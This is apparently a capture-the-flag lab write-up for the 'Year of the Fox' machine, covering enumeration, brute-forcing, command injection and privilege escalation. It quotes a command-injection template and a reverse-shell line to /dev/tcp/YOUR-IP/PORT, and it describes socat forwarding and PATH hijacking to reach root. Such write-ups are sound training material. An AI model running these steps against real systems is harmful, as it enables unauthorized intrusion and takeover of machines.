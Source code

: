 ## ENUMERATION
Starting with an nmap scan as always:
```
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp   open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
2725/tcp  filtered msolap-ptp2
49159/tcp filtered unknown
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-time: 
|   date: 2023-07-11T10:56:50
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: mean: -19m57s, deviation: 34m39s, median: 2s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2023-07-11T11:56:49+01:00
```
Taking a look at the webserver first:
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194100.png)

We don't have any credentials to work with for now so let's move on to Samba.

## SAMBA
Use enum4linux to enumerate SMB shares:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20193807.png)

We got 2 users :
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20193917.png)

You can try to bruteforce smb using user fox but its time consuming.
## ACTIVE ENUMERATION
Use hydra to bruteforce web login. It works with user rascal but the password changes everytime we restart the machine.
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194218.png)

The website:
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20160130.png)

Search an empty string and you can see the expected input is files. Also , seems like it doesn't like some characters.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20160520.png)

Intercepting request with Burp:
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20163302.png)

Now , I used intruder to launch a simple SQL injection fuzzing but got nothing. So now onto command injection. You can run some commands using : `{"target":"\"; COMMAND \""}`
Used RCE Command : `bash -i >& /dev/tcp/YOUR-IP/PORT 0>&1` but got invalid-character response so used base 64.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194847.png)

Use burp repeater:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194710.png)

We gain an RCE:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195039.png)

And there we get our first flag!
## FOOTHOLD
Check all processes which are running:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195224.png)

There seems to be SSH running on port 22 and can be confirmed in `/etc/ssh/sshd_config` file which also tells us that only user fox can use it. We can use this.
Use socat as a TCP port forwarder. Here socat listens on port 2222 , accepts connections and forwards connections to port 22 on remote host.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195606.png)

We've established a connection. Now time to bruteforce :

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195736.png)

Sweet! Now SSH as User fox :

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195918.png)

And there we have our second flag!
Now see all the commands user fox can run : `sudo -l`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20165345.png)

We can run shutdown as root without password. GTFObins doesn't give anything. Dragging the file onto our machine so we can analyze it.
Use Radare2 :
```
r2 -AAAA /tmp/shutdown
pdg
```
And looks like this binary is calling the `poweroff` binary which doesn't seem to be using an absolute path. So, we can use PATH manipulation to spawn a root shell. Here we are copying /bin/bash to our own version of `/tmp/poweroff` and adding that to `$PATH `so that when it searches for the poweroff binary it searches the /tmp directory first.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20165659.png)

And there we have our root shell.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20165746.png)
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20170230.png)

Also found this :

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20170314.png)

